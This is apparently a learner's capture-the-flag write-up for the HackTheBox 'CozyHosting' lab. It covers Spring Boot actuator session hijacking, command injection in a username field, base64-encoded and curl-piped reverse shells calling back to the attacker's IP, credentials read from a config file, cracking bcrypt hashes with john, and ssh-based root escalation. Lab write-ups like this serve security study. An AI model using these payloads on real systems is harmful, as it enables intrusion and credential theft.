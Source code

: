 # Reconnaissance
- 10.10.11.230 : cozyhosting.htb - /etc/hosts
- Nmap output :
```bash
nmap -sV -sC -vv 10.10.11.230

---
Output:

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEpNwlByWMKMm7ZgDWRW+WZ9uHc/0Ehct692T5VBBGaWhA71L+yFgM/SqhtUoy0bO8otHbpy3bPBFtmjqQPsbC8=
|   256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHVzF8iMVIHgp9xMX9qxvbaoXVg1xkGLo61jXuUAYq5q
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Cozy Hosting - Home
|_http-favicon: Unknown favicon MD5: 72A61F8058A9468D57C3017158769B1F
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
- nginx1.18.0, http, Linux OS
- ffuf, gobuster, dirbuster don't return anything useful.
	- /assets/.. subdirectory
		- not accessible.
		- says no /error location so displayed on screen
			- exploitable?
- BurpSuite
	- we see cookie
- Login page 
	- we try to login and we get an error message that prompts us to check /error page
		- we get this whitelabel error
		- on searching about this we see its related to Spring Boot java application
			- we have a wordlist for this
- 2 ways to go about, ffuf (from walkthrough), I used dirsearch, maybe i got lucky:
	- ffuf enumeration:
		- first before knowing about spring boot:
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://cozyhosting.htb/FFUZ -ic -t 100
```
- we get some like index, login, admin, logout, error
- after finding out about spring boot
```bash
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/spring-boot.txt:FFUZ
-u http://cozyhosting.htb/FFUZ -ic -t 100
```
- we find actuator path is accessible
- **maybe got lucky with this search** from dirsearch we find /actuator directory
```bash
dirsearch -u cozyhosting.htb
```
- leaders us to /actuator/sessions which holds user session key
- we can change that either in burp suite or in our browser by changing our cookie to that
- we login as admin of web page
- we see connection settings where we can enter address
	- we try ours but connection refused obvously
	- we try localhost as kadmin but we get rejected as we dont have key
		- we try to inject code in both fields and find username is injectable
```bash
;<command>;
```
### Testing the connect option below
- we try to connect to localhost while we test for injection
- we find that we can inject by putting our code into  the username field
- **Method 1 : IPPSec**
	- we again connect to localhost and capture a test input in username.
	- capture packet in BurpSuite > Send to Repeater
	- enter this command  into username field while having nettcat listener on and send packet:
```bash
;{sleep,2}; # to test, we see a delay
;{echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvPGxvY2FsX2lwPi85OTk4ICAwPiYxICAK}|{base64,-d}|bash;
```
- How? We create our exploit, base 64 encode it, remove the additional +, = characters and then pass it to burpsuite
	- we also see the last bash command isnt in {}
			- test in our machine if the command executes to reverse shell. 
			- we see bash with {} doesn't work
```bash
vi shell # bash -i >& /dev/tcp/<local_ip>/9998 0>&1 
base64 -w 0 shell
{echo,YmFzaCAgLWkgPiYgL2Rldi90Y3AvPGxvY2FsX2lwPi85OTk4ICAwPiYxICAK}|{base64,-d}|bash
```
- Alternatively, instead of adding spaces, you could siply add the command to our burp suite and url encode (Ctrl+U) and it will look like this :
```bash
host=127.0.0.1&username=%3b{echo,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4yNS85OTk5IDA%2bJjEK}|{base64,-d}|bash%3b
```
**Note: we see , and when testing in bash it won't work. testing with , works in zsh so keep that in mind**
- in walkthrough pdf we do see a different way which i believe is compatible for bash
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.49/4444 0>&1' > rev.sh
```
- We see they use \n instead of ,
- then in our username injection input we pass this command while listening on our netcat listener:
```bash
test;curl${IFS}http://10.10.14.49:7000/rev.sh|bash;
```
- $(IFS) works with curl (but not a bash command..why?)
- represents space
- calls our command and executes via bash
- We gain foothold as appp but not user for user flag
- unzip the jar file
	- we find credentials is:
```bash
app@cozyhosting:/tmp/app/BOOT-INF/classes$ cat application.properties
cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxRapp@cozyhosting:/tmp/app/BOOT-INF/classes$ 
```
- User : postgres
- Password : Vg&nvzAQ7XxR
- enter postgresql
```bash
psql -h 127.0.0.1 -U postgres
Password:Vg&nvzAQ7XxR
\l
```
- Output for list all database:
```bash
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)

```
- enter database and list tables:
```bash
\c
\dt
```
- Output:
```bash
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

```
- List users:
```bash
select * from users;

--OUTPUT--
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
(2 rows)

```
- crack hash:
```bash
vi hash # copy hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

--OUTPUT--
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)     
1g 0:00:00:20 DONE (2025-03-28 17:04) 0.04812g/s 135.1p/s 135.1c/s 135.1C/s catcat..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                  
```
- Password: manchesterunited
- 

## Privilege Escalation 
- sudo -l reveals ssh can be used as sudo
- Check GTFObins for ssh shell
- These commands work :
```bash
ssh -o ProxyCommand=';sh 0<&2 1>&2' x
ssh -o PermitLocalCommand=yes -o LocalCommand=/bin/sh localhost
```
- Why?
- It is a way to pass a command before ssh'ing into the machine. Why?
		- before when connecting to a machine behind a firewall, a direct connection wouldnt work due to say a good firewall.
		- So people would ssh into a Bastion machine which would do something like
		- ssh -L `<port>` `<host>` and forward the ssh to the target machine
		- but if the ssh tunnel isn't active before ssh'ing into the machine it wouldn't work
		- so this makes things easier by making sure it passes the ssh command before we ssh into the machine
- We get root access
## Rabbit Holes
- finding creds for lateral movement

- also
```bash
username=kanderson&password=MRdEQuv6~6P.-v
```
